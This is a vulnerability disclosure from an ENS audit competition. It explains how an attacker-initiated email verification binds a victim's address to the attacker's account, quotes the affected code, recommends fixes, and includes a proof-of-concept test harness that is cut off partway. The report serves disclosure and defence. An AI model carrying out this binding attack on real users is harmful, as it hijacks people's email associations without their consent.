

# 93060 w a low attacker initiated verification binds a victim email to the attacker

**Submitted on Sep 14th 2026 at 04:42:24 UTC by @Johnyfwesh for** [**Audit Competition | ENS**](https://immunefi.com/audit-competition/audit-competition-ens)

* **Report ID:** #93060
* **Report Type:** Websites & Apps
* **Report severity:** Low
* **Target:** <https://github.com/immunefi-team/audit-comp-ens/tree/audit-comp-ready/workers>
* **Impacts:**
  * Changing non-sensitive details of other users (including modifying browser local storage) without already-connected wallet interaction and with up to one click of user interaction, such as: Enabling/disabling notifications

## Description

## Finding Description and Impact

`POST /notifications/channels/email` is an authenticated channel-creation endpoint that accepts an arbitrary email address and stores the **requester’s** `user_id` on both the `userChannels` row and the `channelVerifications` record. Completing verification is supposed to prove that the mailbox owner intends to attach that address to **that** account. The public `POST /notifications/channels/email/verify` handler does not do that. It has no `requireAuth` middleware and authorizes exclusively by looking up the emailed token (`purpose = 'verify'`, not expired). The token then points back at the initiator’s `channel_id` / `user_id`. Confirming mailbox access therefore binds the address to whichever account started the request.

The verification email and Manager verify page make that confusion practical. Production `sendVerificationEmail` sends a genuine ENS Notifications message to the submitted address. The link is the real Manager URL (`/notifications/channels/email/verify?token=…`). The body never names the initiating wallet or user id; the primary call to action is “Verify Email Address.” The page posts only `{ token }` and works while logged out. One recipient click is enough.

After verify, the handler marks the **initiator’s** channel `verified`, sends a welcome mail to the victim address, and `waitUntil`s `addContactToList(victimEmail, verification.user_id)`. The victim’s mailbox is then a verified notification channel on the attacker account and a SendGrid broadcast contact tagged with the attacker’s user id. `POST /email` rejects any later attempt to attach an already-verified address to another user, so the victim cannot link that email to their own account. The attacker keeps lifecycle control of the channel and any associated SendGrid updates.

This is an authorization-binding flaw: possession of a self-issued JWT plus one victim click on a first-party verification link changes a sensitive email association, with no connected-wallet interaction.

### Affected code

* [`workers/api-worker/src/app/routes/notifications/channels/email.ts#L29-L37`](https://github.com/immunefi-team/audit-comp-ens/blob/audit-comp-ready/workers/api-worker/src/app/routes/notifications/channels/email.ts#L29-L37) (`POST /email`)

```typescript
  .post(
    '/',
    ...requireAuth,
    injectDb,
    vValidator('json', addEmailChannelBodySchema),
    async (c) => {
      const userId = c.var.user_id
      const { email: rawEmail } = c.req.valid('json')
      const email = normalizeEmailForRateLimit(rawEmail)
```

* Authenticated create accepts any syntactically valid email. `userId` is taken from the caller’s JWT, not from mailbox ownership. That is the only identity later written onto the channel and verification rows.
* [`workers/api-worker/src/app/routes/notifications/channels/email.ts#L74-L120`](https://github.com/immunefi-team/audit-comp-ens/blob/audit-comp-ready/workers/api-worker/src/app/routes/notifications/channels/email.ts#L74-L120) (`userChannels` + `channelVerifications` insert)

```typescript
      const channel = await c.var.db
        .insert(TABLE.userChannels)
        .values({
          user_id: userId,
          channel: 'email',
          status: 'pending',
          target: email,
        })
        // ...
      const verification = await c.var.db
        .insert(TABLE.channelVerifications)
        .values({
          user_id: userId,
          channel_id: channel.id,
          channel: 'email',
          purpose: 'verify',
          token: generateToken(),
          expires_at: new Date(Date.now() + 24 * 60 * 60 * 1000),
          attempts: 0,
        })
```

* Both records are keyed to the requester. The emailed token is a capability for *this* pending channel, not a capability for “whoever owns the mailbox.” An attacker can plant that binding for a victim address before any victim-side action.
* [`workers/api-worker/src/services/email/verification.ts#L9-L36`](https://github.com/immunefi-team/audit-comp-ens/blob/audit-comp-ready/workers/api-worker/src/services/email/verification.ts#L9-L36) (`sendVerificationEmail`)

```typescript
export const sendVerificationEmail = ResultFn(async function* (
  apiKey: string,
  fromEmail: string,
  toEmail: string,
  verificationToken: string,
  managerAppUrl: string,
) {
  const verificationUrl = `${managerAppUrl}/notifications/channels/email/verify?token=${encodeURIComponent(verificationToken)}`
  // ...
    subject: 'Verify your email address - ENS Notifications',
    content: [
      {
        type: 'text/plain',
        value: `Verify your email address - ENS Notifications

Thank you for signing up for ENS notifications! Please verify your email address by clicking the link below.

${verificationUrl}

This verification link will expire in 24 hours. If you didn't request this email, you can safely ignore it.
```

* The message is a first-party ENS Notifications email to the victim. It never discloses the initiating account (wallet or user id). The only account-binding action offered is following the official Manager verify URL.
* [`apps/manager/src/routes/notifications/channels/email/verify.tsx#L77-L92`](https://github.com/immunefi-team/audit-comp-ens/blob/audit-comp-ready/apps/manager/src/routes/notifications/channels/email/verify.tsx#L77-L92) and [`#L218-L225`](https://github.com/immunefi-team/audit-comp-ens/blob/audit-comp-ready/apps/manager/src/routes/notifications/channels/email/verify.tsx#L218-L225) (one-click Manager confirm)

```typescript
  const handleVerify = (verificationToken?: string) => {
    const tokenToUse = verificationToken || token
    if (!tokenToUse) return

    verifyEmailMutation.mutate(tokenToUse, {
      onSuccess: () => {
        toast.success(t`Email verified successfully`)
        setTimeout(() => {
          navigate({ to: continueTo })
        }, 1200)
      },
    })
  }
  // ...
            <Button
              className="w-full text-sm leading-ens-none"
              onClick={() => handleVerify()}
              size="lg"
              variant="blue"
            >
              <Trans>Verify Email Address</Trans>
            </Button>
```

* The Manager page is a public route. One click posts the query token through `verifyEmailMutationOptions`, which sends only `{ token }` and does not require the visitor to authenticate as the channel owner ([`channels.ts#L177-L182`](https://github.com/immunefi-team/audit-comp-ens/blob/audit-comp-ready/apps/manager/src/features/notifications/data/queries/channels.ts#L177-L182)).
* [`workers/api-worker/src/app/routes/notifications/channels/email.ts#L172-L201`](https://github.com/immunefi-team/audit-comp-ens/blob/audit-comp-ready/workers/api-worker/src/app/routes/notifications/channels/email.ts#L172-L201) (`POST /email/verify`)

```typescript
.post(
  '/verify',
  vValidator('json', verifyEmailChannelBodySchema),
  injectDb,
  async (c) => {
    const { token } = c.req.valid('json')

    const verification = await c.var.db.query.channelVerifications.findFirst({
      where: and(
        eq(TABLE.channelVerifications.token, token),
        eq(TABLE.channelVerifications.purpose, 'verify'),
        gt(TABLE.channelVerifications.expires_at, new Date()),
      ),
      with: {
        channel: true,
      },
    })
    // ...
      await c.var.db
        .update(TABLE.userChannels)
        .set({
          status: 'verified',
          verified_at: new Date(),
        })
        .where(eq(TABLE.userChannels.id, verification.channel_id))
```

* `/verify` is unauthenticated. Lookup is token + purpose + expiry only. Success marks `verification.channel_id` verified the attacker’s pending row without checking that the caller is, or intends to bind to, that channel’s `user_id`.
* [`workers/api-worker/src/app/routes/notifications/channels/email.ts#L232-L243`](https://github.com/immunefi-team/audit-comp-ens/blob/audit-comp-ready/workers/api-worker/src/app/routes/notifications/channels/email.ts#L232-L243) (`addContactToList` after verify)

```typescript
      if (c.env.SENDGRID_BROADCAST_LIST_ID && verification.channel?.target) {
        c.executionCtx.waitUntil(
          Promise.resolve(
            addContactToList(
              {
                SENDGRID_API_KEY: c.env.SENDGRID_API_KEY,
                SENDGRID_BROADCAST_LIST_ID: c.env.SENDGRID_BROADCAST_LIST_ID,
              },
              verification.channel.target,
              verification.user_id,
            ),
```

* Broadcast enrollment uses the victim email and the **stored initiator** `user_id`. Completing the token therefore associates the mailbox with the attacker in SendGrid as well as in `userChannels`.
* [`workers/api-worker/src/services/sendgrid/contacts.ts#L53-L75`](https://github.com/immunefi-team/audit-comp-ens/blob/audit-comp-ready/workers/api-worker/src/services/sendgrid/contacts.ts#L53-L75) (`addContactToList`)

```typescript
export const addContactToList = ResultFn(async function* (
  env: SendGridEnv,
  email: string,
  userId?: string,
) {
  const url = new URL(`${BASE_URL}/v3/marketing/contacts`)

  const response = yield* fromPromise(
    fetch(url, {
      method: 'PUT',
      headers: {
        'Content-Type': 'application/json',
        Authorization: `Bearer ${env.SENDGRID_API_KEY}`,
      },
      body: JSON.stringify({
        list_ids: [env.SENDGRID_BROADCAST_LIST_ID],
        contacts: [
          {
            email,
            ...(userId && { custom_fields: { user_id: userId } }),
          },
        ],
      }),
    }),
```

* Downstream marketing update is caller-supplied `email` + `userId`. After a confused-deputy verify, those values are the victim address and the attacker id.
* [`workers/api-worker/src/app/routes/notifications/channels/email.ts#L58-L72`](https://github.com/immunefi-team/audit-comp-ens/blob/audit-comp-ready/workers/api-worker/src/app/routes/notifications/channels/email.ts#L58-L72) (verified-email lockout)

```typescript
      const otherUserChannel = await c.var.db.query.userChannels.findFirst({
        where: and(
          eq(TABLE.userChannels.channel, 'email'),
          eq(TABLE.userChannels.target, email),
          eq(TABLE.userChannels.status, 'verified'),
        ),
      })

      if (otherUserChannel && otherUserChannel.user_id !== userId) {
        return c.json(
          { error: 'This email address is already linked to another account' },
          400,
        )
      }
```

* After the attacker’s row is `verified`, the same uniqueness check that failed to stop the unsolicited start now blocks the mailbox owner from linking the address to their own account.
* [`workers/api-worker/src/core/database/schema/notifications.ts#L95-L113`](https://github.com/immunefi-team/audit-comp-ens/blob/audit-comp-ready/workers/api-worker/src/core/database/schema/notifications.ts#L95-L113) (`channelVerifications`)

```typescript
export const channelVerifications = pgTable('channel_verifications', {
  id: uuid('id').primaryKey().default(randomUUIDv7),

  user_id: uuid('user_id')
    .notNull()
    .references(() => users.id, { onDelete: 'cascade' }),

  channel_id: uuid('channel_id')
    .references(() => userChannels.id, {
      onDelete: 'cascade',
    })
    .notNull(),
  // ...
  purpose: text('purpose').notNull(), // 'verify' | 'unsubscribe' | 'link'
  token: text('token').notNull(),
```

* The token row permanently records which account initiated verification. `/verify` never re-binds that `user_id` to the person who clicked.

## Impact

### Victim email becomes a verified channel on the attacker account

* An ordinary SIWE-authenticated wallet holder posts the victim address to `POST /notifications/channels/email` ([`email.ts#L29-L37`](https://github.com/immunefi-team/audit-comp-ens/blob/audit-comp-ready/workers/api-worker/src/app/routes/notifications/channels/email.ts#L29-L37)). If the recipient follows the official verification link and clicks once, `/verify` marks the attacker’s `userChannels` row `verified` ([`email.ts#L194-L201`](https://github.com/immunefi-team/audit-comp-ens/blob/audit-comp-ready/workers/api-worker/src/app/routes/notifications/channels/email.ts#L194-L201)).
* No victim wallet connection is required. The verify handler ignores JWTs entirely; a logged-in victim session does not retarget the binding.

### Sensitive email association and SendGrid enrollment move to the attacker

* `addContactToList` is invoked with the victim email and `verification.user_id` (attacker) ([`email.ts#L232-L243`](https://github.com/immunefi-team/audit-comp-ens/blob/audit-comp-ready/workers/api-worker/src/app/routes/notifications/channels/email.ts#L232-L243)). The mailbox is enrolled on the broadcast list under the attacker’s user id.
* The attacker owns that channel’s lifecycle (`GET`/`DELETE`/`POST …/test` authorize by `id + attacker user_id`) and can later trigger SendGrid changes for the same address.

### Victim is locked out of binding the address to their own account

* `POST /email` then returns `400 This email address is already linked to another account` ([`email.ts#L67-L71`](https://github.com/immunefi-team/audit-comp-ens/blob/audit-comp-ready/workers/api-worker/src/app/routes/notifications/channels/email.ts#L67-L71)). The victim cannot create their own email channel for that mailbox while the attacker’s verified row remains.

### Alignment with Immunefi and ENS program rules

This report is in scope for the ENS Immunefi Audit Competition (Websites and Applications) under the [program scope page](https://immunefi.com/audit-competition/audit-competition-ens/scope/) and the [Immunefi Vulnerability Severity Classification System v2.3](https://immunefi.com/immunefi-vulnerability-severity-classification-system-v2-3/) (Websites and Apps). The demonstrated behavior matches the following published rules.

**In-scope asset.** The program lists `workers/` specifically `workers/api-worker` (SIWE, JWT, notifications, SendGrid/Telegram webhooks) and `apps/manager`. The binding logic lives in the worker (`POST /notifications/channels/email`, `POST /email/verify`, `addContactToList`). The one-click confirm path is the Manager verify page. A fault in these trees, or reachable through them, is in scope.

**Immunefi v2.3 / program High: changing another user’s sensitive details.** The High impact includes:

> Changing **sensitive** details of other users (including modifying browser local storage) **without** already-connected wallet interaction and with **up to one click**, e.g. email/password of the victim

This report matches that rule. The changed detail is the victim’s email-to-account association (the classification’s own example is email). The attacker does not need the victim’s connected wallet. The recipient’s single click on the first-party “Verify Email Address” control is the allowed one-click interaction. This is not phishing: the email and verify page are the real ENS Notifications / Manager surfaces.

**First-party worker logic; eligible adversary.** The attacker is an ordinary SIWE-authenticated wallet holder using their own JWT not a privileged, local-network, or excluded adversary. The defect is first-party authorization binding.

**Demonstrated, single root cause.** Create stores the requester identity; verify treats token possession as authority to finalize that stored identity. The PoC drives the real create, mail, verify, and `addContactToList` clients and shows the lockout.

## Recommended mitigation steps

1. Separate mailbox proof from account binding:
   * Require `/verify` to run under `requireAuth` and accept the token only when `c.var.user_id === verification.user_id`, or
   * Issue the token to the mailbox and, on click, create/verify the channel for the **currently authenticated** user rather than the initiator, or
   * Store no `user_id` on the pending channel until an authenticated recipient confirms.
2. Make the initiating account visible before the click:
   * Put the requester wallet / primary name in the verification email and on the Manager confirm page, and
   * Require an explicit “link this email to 0x…” acknowledgement, not a generic “Verify Email Address.”
3. Do not let a third-party verified row lock the mailbox owner out:
   * At verify time, reject if another user already holds a verified (or pending) row for that `target`, and
   * Prefer a unique constraint on `(channel, target)` for email so only one account can claim an address.
4. Do not enroll SendGrid under the initiator id unless that id is the confirmed account:
   * Pass the authenticated verifier’s `user_id` into `addContactToList`, or skip broadcast sync until a matching authenticated session exists.

## Proof of Concept

## PoC Test (runs in `workers/api-worker/test/attacker-initiated-email-verification-binds-victim.test.ts`) demonstrating attacker-initiated email binding

The PoC drives the real Hono app: `POST /email`, `POST /email/verify`, `GET /channels`, `DELETE /channels/:id`, plus production `sendVerificationEmail`, `sendWelcomeEmail`, `addContactToList`, `searchContact`, and `deleteContact`. JWTs are minted with the test secret (the bug is after a valid session exists; SIWE login is not in the path). `fetch` is stubbed only at the SendGrid HTTP boundary and throws on any other origin. Postgres is an in-memory store that parses the `eq` / `and` / `gt` trees the handlers emit and throws on an unknown clause. KV is an in-memory map so the 3/hour verification cap is real.

Assertions are HTTP-first: status/body from the handlers, captured SendGrid payloads (including `custom_fields.user_id`), and `GET /channels` visibility. The verify helper issues the same request as Manager `verifyEmailMutationOptions` (`POST /notifications/channels/email/verify` with `{ token }`). It does not load the Manager page in a browser.

Six cases, split into exploit / lifecycle / uniqueness gap / bounds:

| Case                                  | What it shows                                                                                                                                                                                                                           |
| ------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Unauthenticated Manager-shaped verify | Attacker create → official mail with no initiator identity → `{ token }` POST with no `Authorization` → attacker `GET /channels` lists the victim email as `verified` → victim `GET /channels` is empty → victim `POST /email` is `400` |
| Victim JWT on `/verify`               | Logged-in Manager session is ignored; bind still goes to the attacker                                                                                                                                                                   |
| Attacker lifecycle                    | Victim `DELETE` of the attacker channel is `404`. Attacker `DELETE` succeeds, removes the SendGrid contact (`search` + `delete`), and only then can the victim `POST /email`                                                            |
| Both pending tokens                   | Create uniqueness allows two pending rows. `/verify` does not re-check uniqueness, so both accounts can end up `verified` for the same address                                                                                          |
| Late attacker create                  | If the victim verifies first, attacker `POST /email` is `400` (attack window is first-claimer)                                                                                                                                          |
| Rate limit                            | Fourth send to the same address is `429`; the bind is not “unlimited mail”                                                                                                                                                              |

## Relevant Code Flow Diagram



### Test file `workers/api-worker/test/attacker-initiated-email-verification-binds-victim.test.ts`

```typescript
import { sign } from 'hono/jwt'
import { afterEach, beforeEach, describe, expect, it, vi } from 'vitest'
import { makeMockEnv } from '#test-utils/env.js'

/**
  * -----------------------
 * Real: Hono app, POST /email, POST /email/verify, GET /channels,
 *       DELETE /channels/:id, sendVerificationEmail, sendWelcomeEmail,
 *       addContactToList, searchContact, deleteContact, generateToken,
 *       requireAuth / verifyJWT, email verification rate limiter.

 * The Manager verify page is not loaded in a browser. verifyEmailChannel()
 * issues the same request as
 * apps/manager/src/features/notifications/data/queries/channels.ts
 * verifyEmailMutationOptions: POST /notifications/channels/email/verify
 * with JSON `{ token }` and no requirement that the caller is the channel owner.
 */

const harness = vi.hoisted(() => {
  type ChannelRow = {
    id: string
    user_id: string
    channel: string
    target: string | null
    data: unknown
    status: string
    status_reason: string | null
    verified_at: Date | null
    last_sent_at: Date | null
    last_bounce_at: Date | null
    last_verification_sent_at: Date | null
    verification_attempts: number
  }

  type VerificationRow = {
    id: string
    user_id: string
    channel_id: string
    channel: string
    target: string | null
    purpose: string
    token: string
    created_at: Date
    expires_at: Date
    consumed_at: Date | null
    attempts: number
  }

  type SendGridContact = {
    id: string
    email: string
    listIds: string[]
    userId?: string
  }

  type RecordedSendGridRequest = {
    method: string
    pathname: string
    searchParams: Record<string, string>
    body: unknown
    authorization: string | null
  }

  type RecordedVerifyRequest = {
    authorization: string | null
    body: { token: string }
  }

  return {
    channels: [] as ChannelRow[],
    verifications: [] as VerificationRow[],
    contacts: new Map<string, SendGridContact>(),
    sendgridRequests: [] as RecordedSendGridRequest[],
    verifyRequests: [] as RecordedVerifyRequest[],
    getDatabase: vi.fn(),
  }
})

vi.mock('#core/database/index.js', async (importOriginal) => {
  const actual =
    await importOriginal<typeof import('#core/database/index.js')>()
  return {
    ...actual,
    getDatabase: harness.getDatabase,
  }
})

vi.mock('#utils/logger.js', () => ({
  logger: {
    info: vi.fn(),
    error: vi.fn(),
    warn: vi.fn(),
    debug: vi.fn(),
    trace: vi.fn(),
  },
}))

import app from '#app/index.js'
import { TABLE } from '#core/database/index.js'
import { formatEmailVerificationRateLimitError } from '#services/notifications/email-verification-rate-limit.js'

const VICTIM_EMAIL_INPUT = 'Victim@Example.COM'
const VICTIM_EMAIL = 'victim@example.com'
const ATTACKER_USER_ID = '11111111-1111-4111-8111-111111111111'
const VICTIM_USER_ID = '22222222-2222-4222-8222-222222222222'
const ATTACKER_ADDRESS = '0xa11ce00000000000000000000000000000000000'
const VICTIM_ADDRESS = '0xb0b0000000000000000000000000000000000000'
const BROADCAST_LIST_ID = 'ens-broadcast-list'
const JWT_SECRET = 'poc-jwt-secret'
const SENDGRID_API_KEY = 'SG.poc'
const SENDGRID_ORIGIN = 'https://api.sendgrid.com'
const MANAGER_APP_URL = 'https://app.ens.dev'
const EMAIL_FROM_ADDRESS = 'noreply@ens.dev'
const VERIFY_PATH = '/notifications/channels/email/verify'
const CREATE_PATH = '/notifications/channels/email'
const CHANNELS_PATH = '/notifications/channels'

type Predicate = {
  column: string
  op: string
  value: unknown
}

const UNSET = Symbol('unset')

const columnName = (node: unknown): string | undefined => {
  if (!node || typeof node !== 'object') {
    return undefined
  }
  const candidate = node as {
    name?: unknown
    table?: unknown
    dataType?: unknown
    columnType?: unknown
  }
  if (
    typeof candidate.name === 'string' &&
    (candidate.table || candidate.dataType || candidate.columnType)
  ) {
    return candidate.name
  }
  return undefined
}

const operatorString = (node: unknown): string | undefined => {
  if (typeof node === 'string') {
    return node
  }
  if (!node || typeof node !== 'object') {
    return undefined
  }
  const candidate = node as { value?: unknown; queryChunks?: unknown[] }
  if (typeof candidate.value === 'string') {
    return candidate.value
  }
  if (Array.isArray(candidate.value)) {
    return candidate.value.map(String).join('')
  }
  if (Array.isArray(candidate.queryChunks)) {
    return candidate.queryChunks
      .map((chunk) => {
        if (typeof chunk === 'string') {
          return chunk
        }
        if (chunk && typeof chunk === 'object' && 'value' in chunk) {
          const value = (chunk as { value: unknown }).value
          return Array.isArray(value) ? value.join('') : String(value ?? '')
        }
        return ''
      })
      .join('')
  }
  return undefined
}

const paramValue = (node: unknown): unknown => {
  if (!node || typeof node !== 'object') {
    return UNSET
  }
  const candidate = node as {
    value?: unknown
    queryChunks?: unknown[]
    table?: unknown
  }
  if ('value' in candidate && !candidate.queryChunks && !candidate.table) {
    return candidate.value
  }
  return UNSET
}

/**
 * Walk a Drizzle SQL tree (`eq` / `and` / `gt`) and recover column comparisons
 * so the in-memory store can honor the same predicates the handlers pass in.
 * Unknown trees throw instead of silently matching every row.
 */
const extractPredicates = (node: unknown): Predicate[] => {
  const predicates: Predicate[] = []

  const visit = (current: unknown) => {
    if (!current || typeof current !== 'object') {
      return
    }
    const chunks = (current as { queryChunks?: unknown[] }).queryChunks
    if (!Array.isArray(chunks)) {
      return
    }

    for (let index = 0; index < chunks.length; index += 1) {
      const name = columnName(chunks[index])
      if (name) {
        const op = operatorString(chunks[index + 1])
        const value = paramValue(chunks[index + 2])
        if (op && value !== UNSET) {
          predicates.push({
            column: name,
            op: op.replace(/\s+/g, ''),
            value,
          })
          index += 2
          continue
        }
      }
      visit(chunks[index])
    }
  }

  visit(node)
  return predicates
}

const compare = (actual: unknown, op: string, expected: unknown) => {
  if (op === '>' || op === '>=' || op === '<' || op === '<=') {
    const left =
      actual instanceof Date
        ? actual.getTime()
        : typeof actual === 'number'
          ? actual
          : Number.NaN
    const right =
      expected instanceof Date
        ? expected.getTime()
        : typeof expected === 'number'
          ? expected
          : Number.NaN
    if (op === '>') return left > right
    if (op === '>=') return left >= right
    if (op === '<') return left < right
    return left <= right
  }
  return actual === expected
}

const rowMatches = (
  row: Record<string, unknown>,
  where: unknown,
  label: string,
) => {
  if (!where) {
    return true
  }
  const predicates = extractPredicates(where)
  if (predicates.length === 0) {
    throw new Error(
      `PoC store could not parse Drizzle where-clause for ${label}`,
    )
  }
  return predicates.every((predicate) =>
    compare(row[predicate.column], predicate.op, predicate.value),
  )
}

const isUserChannels = (table: unknown) => table === TABLE.userChannels
const isVerifications = (table: unknown) => table === TABLE.channelVerifications

const replaceRows = <T>(target: T[], next: T[]) => {
  target.splice(0, target.length, ...next)
}

const createMemoryDb = () => {
  const insertChannel = (
    values: Record<string, unknown>,
    conflictSet?: Record<string, unknown>,
  ) => {
    const existing = harness.channels.find(
      (channel) =>
        channel.user_id === values.user_id &&
        channel.channel === values.channel &&
        channel.target === values.target,
    )
    if (existing) {
      if (conflictSet) {
        Object.assign(existing, conflictSet)
      }
      return [existing]
    }

    const row = {
      id: crypto.randomUUID(),
      data: null,
      status_reason: null,
      verified_at: null,
      last_sent_at: null,
      last_bounce_at: null,
      last_verification_sent_at: null,
      verification_attempts: 0,
      ...values,
    } as (typeof harness.channels)[number]
    harness.channels.push(row)
    return [row]
  }

  const insertVerification = (values: Record<string, unknown>) => {
    const row = {
      id: crypto.randomUUID(),
      target: null,
      created_at: new Date(),
      consumed_at: null,
      attempts: 0,
      ...values,
    } as (typeof harness.verifications)[number]
    harness.verifications.push(row)
    return [row]
  }

  return {
    query: {
      userChannels: {
        findFirst: async ({ where }: { where?: unknown } = {}) =>
          harness.channels.find((channel) =>
            rowMatches(channel, where, 'userChannels.findFirst'),
          ),
        findMany: async ({ where }: { where?: unknown } = {}) =>
          harness.channels.filter((channel) =>
            rowMatches(channel, where, 'userChannels.findMany'),
          ),
      },
      channelVerifications: {
        findFirst: async ({
          where,
          with: relations,
        }: {
          where?: unknown
          with?: { channel?: boolean }
        } = {}) => {
          const verification = harness.verifications.find((row) =>
            rowMatches(row, where, 'channelVerifications.findFirst'),
          )
          if (!verification) {
            return undefined
          }
          if (relations?.channel) {
            return {
              ...verification,
              channel:
                harness.channels.find(
                  (channel) => channel.id === verification.channel_id,
                ) ?? null,
            }
          }
          return verification
        },
      },
    },
    insert: (table: unknown) => {
      let values: Record<string, unknown> = {}
      let conflictSet: Record<string, unknown> | undefined
      const chain = {
        values: (value: Record<string, unknown>) => {
          values = value
          return chain
        },
        onConflictDoUpdate: (opts: { set: Record<string, unknown> }) => {
          conflictSet = opts.set
          return chain
        },
        returning: async () => {
          if (isUserChannels(table)) {
            return insertChannel(values, conflictSet)
          }
          if (isVerifications(table)) {
            return insertVerification(values)
          }
          throw new Error('PoC store insert on unexpected table')
        },
      }
      return chain
    },
    update: (table: unknown) => ({
      set: (values: Record<string, unknown>) => ({
        where: async (where: unknown) => {
          if (isUserChannels(table)) {
            for (const channel of harness.channels) {
              if (rowMatches(channel, where, 'userChannels.update')) {
                Object.assign(channel, values)
              }
            }
            return
          }
          throw new Error('PoC store update on unexpected table')
        },
      }),
    }),
    delete: (table: unknown) => ({
      where: async (where: unknown) => {
        if (isVerifications(table)) {
          replaceRows(
            harness.verifications,
            harness.verifications.filter(
              (verification) =>
                !rowMatches(
                  verification,
                  where,
                  'channelVerifications.delete',
                ),
            ),
          )
          return
        }
        if (isUserChannels(table)) {
          const remaining = harness.channels.filter(
            (channel) => !rowMatches(channel, where, 'userChannels.delete'),
          )
          const removedIds = new Set(
            harness.channels
              .filter((channel) => !remaining.includes(channel))
              .map((channel) => channel.id),
          )
          replaceRows(harness.channels, remaining)
          // Mirror ON DELETE CASCADE from channel_verifications.channel_id.
          replaceRows(
            harness.verifications,
            harness.verifications.filter(
              (verification) => !removedIds.has(verification.channel_id),
            ),
          )
          return
        }
        throw new Error('PoC store delete on unexpected table')
      },
    }),
  }
}

const createExecutionCtx = () => {
  const pending: Promise<unknown>[] = []
  return {
    ctx: {
      waitUntil(promise: Promise<unknown>) {
        pending.push(promise)
      },
      passThroughOnException() { },
    } as ExecutionContext,
    flush: async () => {
      await Promise.all(pending)
    },
  }
}

const createMemoryKv = () => {
  const store = new Map<string, string>()
  return {
    get: vi.fn(async (key: string) => store.get(key) ?? null),
    put: vi.fn(async (key: string, value: string) => {
      store.set(key, value)
    }),
  } as unknown as KVNamespace
}

const createEnv = () =>
  makeMockEnv({
    JWT_SECRET,
    SENDGRID_API_KEY,
    SENDGRID_BROADCAST_LIST_ID: BROADCAST_LIST_ID,
    EMAIL_FROM_ADDRESS,
    MANAGER_APP_URL,
    DATABASE_URL: 'postgres://poc.invalid/unused',
    KV: createMemoryKv(),
  })

const signUserJwt = async (userId: string, address: string) =>
  sign(
    {
      user_id: userId,
      address,
      exp: Math.floor(Date.now() / 1000) + 60 * 60,
    },
    JWT_SECRET,
    'HS256',
  )

const requestJson = (
  path: string,
  init: RequestInit,
  env: CloudflareBindings,
  executionCtx: ExecutionContext,
) => app.request(path, init, env, executionCtx)

const jsonResponse = (status: number, body?: unknown) =>
  new Response(body === undefined ? null : JSON.stringify(body), {
    status,
    headers: { 'Content-Type': 'application/json' },
  })

const asUrl = (input: RequestInfo | URL): URL => {
  if (typeof input === 'string') {
    return new URL(input)
  }
  if (input instanceof URL) {
    return input
  }
  return new URL(input.url)
}

const headerValue = (
  input: RequestInfo | URL,
  init: RequestInit | undefined,
  name: string,
): string | null => {
  const fromInit = init?.headers
  if (fromInit instanceof Headers) {
    return fromInit.get(name)
  }
  if (Array.isArray(fromInit)) {
    const match = fromInit.find(
      ([key]) => key.toLowerCase() === name.toLowerCase(),
    )
    return match?.[1] ?? null
  }
  if (fromInit && typeof fromInit === 'object') {
    const record = fromInit as Record<string, string>
    const key = Object.keys(record).find(
      (candidate) => candidate.toLowerCase() === name.toLowerCase(),
    )
    return key ? record[key] : null
  }
  if (input instanceof Request) {
    return input.headers.get(name)
  }
  return null
}

const requestMethod = (
  input: RequestInfo | URL,
  init: RequestInit | undefined,
) => {
  if (init?.method) {
    return init.method.toUpperCase()
  }
  if (input instanceof Request) {
    return input.method.toUpperCase()
  }
  return 'GET'
}

const requestBody = (init: RequestInit | undefined): unknown => {
  if (typeof init?.body !== 'string') {
    return undefined
  }
  try {
    return JSON.parse(init.body)
  } catch {
    return init.body
  }
}

type MailSendBody = {
  personalizations?: Array<{ to?: Array<{ email?: string }> }>
  from?: { email?: string }
  subject?: string
  content?: Array<{ type?: string; value?: string }>
}

type ContactPutBody = {
  list_ids?: string[]
  contacts?: Array<{
    email: string
    custom_fields?: { user_id?: string }
  }>
}

const mailText = (body: MailSendBody | undefined) =>
  body?.content?.find((part) => part.type === 'text/plain')?.value ?? ''

const mailHtml = (body: MailSendBody | undefined) =>
  body?.content?.find((part) => part.type === 'text/html')?.value ?? ''

const mailRecipient = (body: MailSendBody | undefined) =>
  body?.personalizations?.[0]?.to?.[0]?.email

const handleSendGridRequest = (
  url: URL,
  method: string,
  body: unknown,
): Response => {
  if (method === 'POST' && url.pathname === '/v3/mail/send') {
    return new Response(null, { status: 202 })
  }

  if (method === 'PUT' && url.pathname === '/v3/marketing/contacts') {
    const payload = body as ContactPutBody
    for (const contact of payload.contacts ?? []) {
      const email = contact.email.toLowerCase()
      const existing = harness.contacts.get(email)
      harness.contacts.set(email, {
        id: existing?.id ?? crypto.randomUUID(),
        email,
        listIds: payload.list_ids ?? existing?.listIds ?? [],
        userId: contact.custom_fields?.user_id ?? existing?.userId,
      })
    }
    return jsonResponse(202, { job_id: `job-${crypto.randomUUID()}` })
  }

  if (
    method === 'POST' &&
